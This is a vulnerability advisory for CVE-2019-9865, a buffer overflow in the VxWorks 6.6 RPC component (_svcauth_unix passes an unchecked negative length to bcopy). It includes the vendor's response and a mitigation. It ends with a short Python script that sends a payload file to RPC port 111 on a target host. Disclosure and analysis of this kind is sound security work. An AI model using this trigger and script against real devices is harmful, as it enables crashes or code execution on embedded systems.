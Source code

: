 **Vulnerability Summary**<br>
The following advisory describes a vulnerability found in the Remote Procedure Call (RPC) component of the VxWorks real-time Opearting System, which suffers from a buffer overflow, this buffer overflow can be exploited to cause the component to execute arbitrary code.

**CVE**<br>
CVE-2019-9865

**Credit**<br>
An independent Security Researcher, Yu Zhou, has reported this vulnerability to SSD Secure Disclosure program.

**Affected systems**<br>
VxWorks OS version 6.6

**Vendor Response**<br>
“We’ve gone through our supported versions of VxWorks and found the versions affected are 6.9 before 6.9.1. We released the update to our customers today. Except in special circumstances, we only release statements and fixes for supported products. We know you found this vulnerability in an unsupported version of VxWorks. We won’t have a code update for that, but a mitigation is to disable CONFIG_RPC. This will be published in NVD as CVE-2019-9865. It should be public shortly. Thank you for working with us to resolve this problem. We hope to work with you in the future if you have found other vulnerabilities, and we may have other questions for you.”

**Vulnerability Details**<br>
As previously mentioned, the vulnerability is inside the RPC component. The vulnerable function which contains the buffer overflow is _svcauth_unix. At _svcauth_unix + 0x67, will get the value 0xffffffff from the malicious packet (content will be viewed later).

<img src="https://ssd-disclosure.com/wp-content/uploads/2019/01/VxWorks-6.6-ixdr_get_long.png">

Afterwards, in the cmp eax, 0FFh it will check whether the value (packet content size) is greater than 255 without considering the option of a negative value. The value 0xffffffff is used as the third parameter (nbytes) of the bcopy function, which will finaly cause a buffer overflow.

<img src="https://ssd-disclosure.com/wp-content/uploads/2019/01/VxWorks-6.6-bcopy-Signature.png">

This is the packet that will be sent to the RPC Service:

<img src="https://ssd-disclosure.com/wp-content/uploads/2019/01/VxWorks-6.6-packet-content.png">

**Exploit**<br>
```python
import socket

host = "192.168.15.199"
rpcPort = 111

f = open("pkt", 'rb') # pkt is the file which contains the payload to send.
data = f.read()
f.close()

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((host, rpcPort))
sock.send(data)
sock.close()
```

<img src="https://ssd-disclosure.com/wp-content/uploads/2019/01/VxWorks-6.6-RPC-Crash.png">
